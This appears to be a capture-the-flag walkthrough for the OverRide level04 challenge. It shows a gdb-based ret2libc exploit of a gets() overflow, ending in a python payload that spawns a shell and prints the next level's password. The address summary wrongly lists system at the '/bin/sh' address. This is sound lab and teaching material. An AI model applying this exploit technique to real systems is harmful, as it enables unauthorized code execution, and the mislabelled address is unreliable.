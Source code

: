 
# Walkthrough

**Main** : 
this program is meant to demonstrate how a parent process can use ptrace to monitor and control the execution of a child process. 
It prevents debugging of the child process and block the use of the execve system call. 
However, it contains a security vulnerability due to the use of gets(), which can lead to buffer overflow  and shellcode  in the child process, we going to exploit this vulnerability 



**Process to exploit :**
>   1. **Find the offset**. 
>   2. **Method RET2LIBC** 
>  3. **Load payload**


## Step 1

###  Find the Offset

```
level04@OverRide:~$ gdb level04 
...
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 6028]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 6028]
0x41326641 in ?? () 
```

the offset is `0x41326641` = 156

## Step 2

### RET2LIBC
like the parent process block the use of the execve system call in child process 
We going to use method **RET2LIBC**  instead of directly executing shellcode, the attacker leverages existing code in the program's memory. 
They often target the C standard library (libc) functions that are already loaded in memory, such as system(), exit()

**Utile command:**

 1. The command `info proc map` in GDB is used to display the memory map or memory layout of the currently debugged process. It provides information about the memory regions used by the process, such as code, data, stack, and shared libraries.
 2. This command sets GDB to follow the child process when a fork is executed
 3. x/s address :  is used to examine memory at a specific address it's attempting to print a string located at the specific memory address 
we need the address of the follow item from the libc memory 

 **We need the address of the follow item from the libc memory  Address**  : 
  -  system   
 - exit          
 - /bin/sh  

```
level04@OverRide:~$ gdb level04 
...
(gdb) set follow-fork-mode child
(gdb) info function system
(gdb) r
Starting program: /home/users/level04/level04 
[New process 6374]
Give me some shellcode, k
^C

<--make pause to the program while it's running with `CTRL+C` to interrupt the program.-->

(gdb) info function system
...
0xf7e6aed0  system

(gdb) info function exit
...
0xf7e5eb70  exit

(gdb) info proc map
process 6455
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	...
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	...

	(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
	0xf7f897ec
	1 pattern found.
	(gdb) x/s 0xf7f897ec 
	0xf7f897ec:	 "/bin/sh"
```

**Address** 
 -  system   =  0xf7f897ec
 - exit          =  0xf7e5eb70
 - /bin/sh =  0xf7f897ec 


## Step 3

### Load payload

```
level04@OverRide:~$ (python -c "print 156 * 'A' + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xf7\xf8\x97\xec'[::-1]" ; cat) |./level04
Give me some shellcode, k
ls
ls: cannot open directory .: Permission denied
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
